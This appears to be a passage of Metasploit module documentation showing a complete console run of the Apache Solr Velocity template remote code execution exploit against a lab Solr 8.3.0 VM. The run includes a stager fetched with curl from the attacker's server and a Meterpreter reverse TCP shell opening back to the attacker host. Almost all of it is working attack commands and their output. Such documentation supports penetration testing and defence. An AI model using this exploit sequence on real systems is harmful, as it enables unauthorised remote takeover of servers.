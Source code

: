 ```
```

### Bitnami Solr VM 8.3.0, requiring basic authentication, using CmdStager, with payload `linux/x86/meterpreter/reverse_tcp`
```
msf5 > use exploit/multi/http/solr_velocity_rce
msf5 exploit(multi/http/solr_velocity_rce) > set RHOSTS 192.168.137.129
RHOSTS => 192.168.137.129
msf5 exploit(multi/http/solr_velocity_rce) > set RPORT 80
RPORT => 80
msf5 exploit(multi/http/solr_velocity_rce) > set USERNAME user
USERNAME => user
msf5 exploit(multi/http/solr_velocity_rce) > set PASSWORD j6lzH82e6Jc5
PASSWORD => j6lzH82e6Jc5
msf5 exploit(multi/http/solr_velocity_rce) > set TARGET 1
TARGET => 1
msf5 exploit(multi/http/solr_velocity_rce) > set LHOST 192.168.137.128
LHOST => 192.168.137.128
msf5 exploit(multi/http/solr_velocity_rce) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/http/solr_velocity_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444
[*] Found Apache Solr 8.3.0
[*] OS version is Linux amd64 4.9.0-11-amd64
[*] Found core(s): techproducts
[*] Targeting core 'techproducts'
[*] Using URL: http://0.0.0.0:8080/PDeRPN1t
[*] Local IP: http://192.168.137.128:8080/PDeRPN1t
[*] Client 192.168.137.129 (curl/7.52.1) requested /PDeRPN1t
[*] Sending payload to 192.168.137.129 (curl/7.52.1)
[*] Sending stage (985320 bytes) to 192.168.137.129
[*] Meterpreter session 18 opened (192.168.137.128:4444 -> 192.168.137.129:48604) at 2020-03-29 00:23:13 +0800
[*] Command Stager progress - 100.00% done (149/149 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.137.129
OS           : Debian 9.11 (Linux 4.9.0-11-amd64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter >
```
